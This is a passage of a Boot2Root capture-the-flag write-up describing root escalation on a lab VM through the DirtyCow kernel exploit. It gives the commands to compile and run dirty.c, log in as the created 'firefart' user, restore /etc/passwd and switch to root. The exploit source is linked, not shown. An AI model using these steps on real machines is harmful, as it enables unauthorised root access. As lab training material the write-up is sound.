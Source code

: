 # Boot2Root -- VacheQuiPue

Starting from `Step 5 - Sanitize`

## Step 5 - Identification
Once we are on the server, we search for potential ways to become root.
After some ID and tests we see that the kernel is vulnerable to the DirtyCow exploit
```
> uname -ra
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The exploit exists on Linux Kernel <= 3.19.0-73.8

## Step 6 - VacheQuiPue
We copy the code from `scripts/dirty.c` on the server, compile it and run it:
```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty cpt
```

We wait a little bit, connect as `firefart`, restore the originial `passwd` file and login as root:
```
su firefart
mdp: cpt
mv /tmp/passwd.bak /etc/passwd
su root
```

![polka cow](../figs/polka.gif)
## Sources:
Privilege escalation reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation
DirtyCow Exploit: https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
DirtyCow Explanation: https://github.com/thaddeuspearson/Understanding_DirtyCOW